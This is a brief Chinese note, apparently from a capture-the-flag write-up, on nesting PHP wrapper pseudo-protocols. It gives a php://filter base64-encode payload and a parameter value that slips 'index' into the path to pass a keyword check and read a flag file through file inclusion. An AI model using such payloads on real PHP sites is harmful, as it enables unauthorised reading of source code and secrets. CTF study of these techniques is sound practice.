 php://filter/read=convert.base64-encode/resource=1.php



php伪协议的嵌套

category=php://filter/read=convert.base64-encode/index/resource=flag

我们本来是要直接读flag,但是，category中必须要包含index，所有写成了这个



